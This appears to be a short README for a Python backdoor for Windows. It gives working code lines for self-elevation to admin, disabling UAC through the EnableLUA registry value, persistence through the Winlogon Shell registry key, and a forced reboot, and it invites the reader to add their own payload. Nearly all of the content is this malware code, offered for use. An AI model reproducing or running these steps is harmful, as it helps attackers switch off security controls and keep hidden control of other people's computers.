 # This is a simple backdoor
It has no C2C payload.
<br>Just for Privilege Escalation and Persistence<br> <br>Please See below.
<br><br>
### Functions
* Auto run as admin

<code>shell.ShellExecuteEx(lpVerb='runas', lpFile=sys.executable, lpParameters=params)</code>
<br><br>
* de UAC Mode
 
<code>os.system('reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f')</code>
<br><br>
* Add persistence

<code>os.system(f'reg.exe ADD "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /f /v Shell /t REG_SZ /d "explorer.exe, {ROOT_PATH}\\{PROG_NAME}"')</code>
<br><br>
* Restart Computer for deUAC

<code>os.system('shutdown /r /f /t 1')</code>
<br><br>

* And

<code>With your Payload</code>
<br><br>
### References
https://attack.mitre.org/techniques/T1547/004/